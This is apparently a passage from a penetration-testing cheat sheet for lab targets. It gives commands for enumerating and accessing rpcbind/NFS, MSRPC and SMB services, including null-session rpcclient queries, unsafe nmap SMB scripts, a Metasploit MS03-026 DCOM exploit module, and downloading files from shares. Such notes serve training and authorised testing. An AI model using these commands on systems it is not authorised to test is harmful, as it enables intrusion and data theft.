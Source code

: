 ## Port 111 - Rpcbind

```
rpcinfo -p 10.11.1.111  # enum NFS shares
showmount -e 10.11.1.111
mount -t nfs 10.11.1.111:/ /mnt -o nolock     # mount remote share to your local machine

rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
```


## Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enum
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

## Port 139/445 - SMB


```
# Enum hostname
	enum4linux -n 10.11.1.111
	nmblookup -A 10.11.1.111
	nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111

# Get Version
	smbver.sh 10.11.1.111

# Get smb_version
	sudo Msfconsole -x "use scanner/smb/smb_version; set RHOSTS 192.168.X.X; run"

ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'

smbclient -L \\\\10.11.1.111

# Connect To Share

	smbclient //192.168.x.x/$SHARENAME

# Useful commands inside of share
	1) ls -al
	2) dir
	3) cd
	4) put

# Uploading file to share via curl. Requires creds

	curl --upload-file /path/to/file.ext  -u 'DOMAIN\Username' smb://192.168.x.x/ShareName/
# Get Shares
	smbmap -H  10.11.1.111 -R <sharename>
	sudo smbmap -H 10.11.1.136 -R --download "Bob Share\Draft Contract Mr. Yamamoto.txt" # Connect to a share with a space & download files
	echo exit | smbclient -L \\\\10.11.1.111
	smbclient \\\\10.11.1.111\\<share>
	smbclient -L //10.11.1.111 -N
```